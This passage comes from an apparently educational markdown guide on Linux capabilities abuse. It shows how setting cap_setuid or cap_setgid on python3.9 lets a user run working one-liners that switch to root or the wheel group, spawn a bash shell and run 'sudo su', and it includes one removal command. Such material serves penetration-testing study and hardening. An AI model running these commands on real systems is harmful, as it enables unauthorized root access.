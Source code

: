 To remove the `cap_dac_override` capability from Python 3.9, use:

```bash
setcap -r /usr/bin/python3.9
```


# **Capabilities for Privilege Escalation**

In the following, We have only showed Misconfiguration and Exploitation for finding, checking, description you can refer to [Finding, Confirming and Removing Capabilities ](#Finding,%20Confirming%20and%20Removing%20Capabilities) and for [Reference](#Reference)

## cap_setuid

#### Misconfiguring

```bash
setcap cap_setuid+ep /usr/bin/python3.9
```

#### Exploiting

By leveraging the `cap_setuid` capability, an attacker can escalate privileges with the following command:

```bash
/usr/bin/python3.9 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

This executes a Python command that changes the user ID to `0` (root) and spawns a root shell.

## cap_setgid

#### Misconfiguring

```bash
setcap cap_setgid+ep /usr/bin/python3.9
```

#### Exploiting

```bash
cat /etc/group
```

```bash
wheel:x:10:
```

```bash
python -c 'import os; os.setgid(10); os.system("/bin/bash")'
```

```bash
sudo su
```
